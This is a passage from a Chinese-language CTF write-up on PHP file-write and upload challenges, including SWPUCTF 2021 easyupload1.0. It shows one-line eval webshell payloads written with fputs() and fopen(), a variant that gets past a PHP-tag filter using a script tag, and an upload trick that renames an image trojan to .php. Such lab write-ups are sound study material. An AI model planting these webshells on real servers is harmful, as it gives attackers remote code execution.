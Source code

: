 ```

## fputs() 函数

fputs() 函数将内容写入一个打开的文件中。

```
fputs(file,string,length)
```

**`file`**（必需）：由 `fopen()` 打开的文件句柄。

**`string`**（必需）：要写入文件的字符串。

**`length`**（可选）：要写入的最大字节数。如果省略，则写入整个字符串。

组合一下

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd]);?>' ) ?>
```

![image-20250731211339105](./assets/image-20250731211339105.png)

显然是 php 头被过滤了，那么就换一种 payload ：

```
<?php fputs(fopen('shell2.php','w'),'<script language="php">@eval($_POST["shell"]);</script>') ?>
```

成功写入，并且在 shell2.php 页面没有任何内容，用蚁剑去连的时候发现连不上：返回数据为空

# [SWPUCTF 2021 新生赛]easyupload1.0

![image-20250731211921118](./assets/image-20250731211921118.png)

上传一句话木马的图片，抓包改后缀为php，蚁剑链接可以找到flag，但是这个flag是假的

```
<?php @eval($_POST['shell']);?>
```

看题解发现flag在phpinfo中，我们post传参，使shell=phpinfo();接着访问phpinfo即可早其中拿到flag

